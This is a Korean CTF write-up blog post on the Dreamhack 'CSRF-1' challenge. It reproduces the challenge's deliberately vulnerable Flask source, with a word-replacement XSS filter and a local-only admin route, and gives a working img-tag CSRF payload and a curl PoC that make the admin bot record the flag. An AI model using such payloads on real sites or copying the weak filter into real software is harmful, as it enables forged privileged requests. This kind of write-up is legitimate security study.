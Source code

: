 ```yaml
---
title: "[CTF] 드림핵 CSRF-1"
date: 2025-09-18 18:20:00 +0900
categories: [CTF, Web]
tags: [CTF, CSRF]
description: "드림핵 CSRF-1"
author: "송지민"
toc: true
---
```


## 문제 개요
이번 문제는 `/vuln`, `/flag`, `/memo`, `/admin/notice_flag` 경로가 있는 플라스크 앱이었다. 이전 문제들과 비슷한 구조지만 필터링과 로컬 판정 로직에 차이가 있어 우회 방법을 찾아야 했다.

- `/vuln?param=...` : param 값을 출력하되 XSS 필터가 적용되어 `["frame","script","on"]` 단어는 `"*"`로 치환된다.
- `/flag` : POST로 param을 받아 내부에서 `check_csrf(param)` 을 호출해 `/vuln?param=...` 를 로컬 브라우저(셀레니움)로 열게 함.
- `/memo?memo=...` : 전달된 memo 값을 누적해 저장
- `/admin/notice_flag` : 로컬에서만 접근 가능하며 `userid=admin`이면 FLAG를 memo에 기록

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        print(str(e))
        # return str(e)
        return False
    driver.quit()
    return True


def check_csrf(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "").lower()
    xss_filter = ["frame", "script", "on"]
    for _ in xss_filter:
        param = param.replace(_, "*")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param", "")
        if not check_csrf(param):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", None)
    if text:
        memo_text += text
    return render_template("memo.html", memo=memo_text)


@app.route("/admin/notice_flag")
def admin_notice_flag():
    global memo_text
    if request.remote_addr != "127.0.0.1":
        return "Access Denied"
    if request.args.get("userid", "") != "admin":
        return "Access Denied 2"
    memo_text += f"[Notice] flag is {FLAG}\n"
    return "Ok"


app.run(host="0.0.0.0", port=8000)
```

---

## 내가 실제로 푼 방법
코드를 확인하면서 취약점을 두 가지로 정리했다.

1. `/vuln`은 `["frame","script","on"]` 만 필터링하지만, 필터는 단어 치환 방식(`replace`)이라 태그의 꺽쇠(`<` `>`)는 그대로 남아 있고 다른 태그를 사용할 수 있다.
2. `check_csrf`는 내부에서 받은 `param`을 그대로 `read_url`에 넣어 로컬에서 실행하도록 만든다. 즉, `read_url`이 로컬(셀레니움)에서 해당 URL을 열게 되어 내부 접근이 가능하다는 판정을 얻게 된다.

따라서 아이디어는 간단했다. `/admin/notice_flag`는 로컬 요청에 대해 `userid=admin`이면 FLAG를 memo에 기록하므로, `/flag`에 param으로 admin 경로 호출을 보내게 만들면 된다.

### 내가 사용한 페이로드
```html
<img src="/admin/notice_flag?userid=admin">
```

### PoC 요청
```bash
curl -X POST -F 'param=<img src="/admin/notice_flag?userid=admin">' http://TARGET:8000/flag
```

설명:
- `/flag`에 POST하면 `check_csrf(param)`이 `http://127.0.0.1:8000/vuln?param=<quote(param)>` 를 내부 셀레니움으로 연다.
- `/vuln`은 필터로 `frame`, `script`, `on` 단어를 `"*"`로 치환하지만 `<img src="/admin/notice_flag?userid=admin">` 에는 해당 단어들이 없어 그대로 출력된다.
- 셀레니움 봇이 `/vuln?param=<img ...>` 를 열고 페이지에서 이미지 태그를 평가하면서 `/admin/notice_flag?userid=admin` 로 요청을 보낸다.
- `/admin/notice_flag`는 로컬 요청이고 `userid=admin`이므로 memo에 FLAG가 저장된다.
- 최종적으로 `/memo`에서 FLAG를 확인했다.

---

## 재현 흐름
1. 공격자: `POST /flag` with `param=<img src="/admin/notice_flag?userid=admin">`  
2. 서버: `check_csrf` → `read_url` → 셀레니움 실행 → `driver.get("/vuln?param=<payload>")`  
3. 봇: `/vuln` 렌더링 후 이미지 요청으로 `/admin/notice_flag?userid=admin` 호출  
4. `/admin/notice_flag`는 로컬 + admin 조건 만족 → memo에 FLAG 저장  
5. 공격자: `/memo`에서 FLAG 확인

---

## 왜 이게 가능했나
`/vuln`의 필터가 제한적이고 `check_csrf`가 내부에서 받은 URL을 로컬에서 그대로 실행하게 만들어, 로컬 전용 관리자 경로에 이미지 요청을 트리거할 수 있었기 때문이다.

---

## 마무리
CSRF-1은 필터 우회 + 로컬 실행 판정 조합으로 내부 관리자 경로를 타격한 문제였다. 간단하게 파고 들어서 바로 해결한 유형이라 블로그 기록용으로 남겼다.
